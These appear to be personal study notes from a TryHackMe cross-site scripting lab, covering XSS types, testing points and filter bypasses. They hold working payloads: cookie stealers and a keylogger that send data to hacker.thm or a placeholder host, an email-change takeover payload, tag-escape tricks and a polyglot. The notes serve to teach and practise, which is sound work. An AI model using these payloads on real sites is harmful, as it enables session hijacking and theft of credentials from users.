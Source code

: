 Cross-site Scripting aka XSS 

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. 

------------

What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. 

there are two types of payload :- 

1. intention - what you wish the javascript to actually do for us 

2. modification - changes to the code we need to make it execute as every scenario is different 

-------------

Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:



<script>alert('XSS');</script>

-----------

Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.



<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>


-------------

Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.



<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

--------------

Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:



<script>user.changeEmail('attacker@hacker.thm');</script>



Now that the email address for the account has changed, the attacker may perform a reset password attack.

-----------

Reflected XSS 

happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

1. Parameters in the URL Query String
2. URL File Path
3. Sometimes HTTP Headers (although unlikely exploitable in practice)

----------

Stored XSS

As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

How to test for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

1. Comments on a blog
2. User profile information
3. Website Listings

--------------

What is the DOM?

DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.


--------------

Blind XSS 

is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is xsshunter

-------------

so there are different levels which requires us to bypass different filters and different type of tags and here it goes :- 

1. simple one with no protection at all 

<script>alert('THM');</script>



2. here we are inside an input tag which need to be escaped in order for us to perform a successful xss here so:- 

"><script>alert('THM');</script>

we used this payload because :-

The important part of the payload is the (">) which closes the value parameter and then closes the input tag.



3. when our data is being stored in an HTML tag i.e textarea tag in this case so we used this payload :-

</textarea><script>alert('THM');</script>

The important part of the above payload is </textarea>, which causes the textarea element to close so the script will run.



4. sometimes we will have to escape javascript code/command used in the webpage or page source in order to create a perfect payload for xss.

our payload will look something like :- 

';alert('THM');//

(') this closes the field 

(;) this end the previous command being used 

(//) and this will make everything a commend afterwards our xss payload .


5. so here is a filter that filters the word "script" out from our payload.

When a word gets removed from a string, there's a helpful trick that you can try. i.e :- 

Original Payload:
<sscriptcript>alert('THM');</sscriptcript>

Text to be removed (by the filter):
<sscriptcript>alert('THM');</sscriptcript> # here the word script between s and cript gets filtered and a perfect payload is left in final step i.e :- 

Final Payload (after passing the filter):
<script>alert('THM');</script>



6. in this case the (< , >) these things like greater and smaller than sign gets removed which is preventing us from escaping img tag 

we can take advantage of the additional attributes of the IMG tag, such as the onload event. 

The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

our payload will look something like this :- 

 /images/cat.jpg" onload="alert('THM');  



7. Polygots - An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
                     


--------------

Blind XSS 

</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>



Let's breakdown the payload: (Cookie Stealer)

The </textarea> tag closes the textarea field. 

The <script>tag opens open an area for us to write JavaScript.

The fetch() command makes an HTTP request.

{URL_OR_IP} is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

?cookie= is the query string that will contain the victim's cookies.                                               

btoa() command base64 encodes the victim's cookies.                                                    

document.cookie accesses the victim's cookies for the Acme IT Support Website.

</script>closes the JavaScript code block.










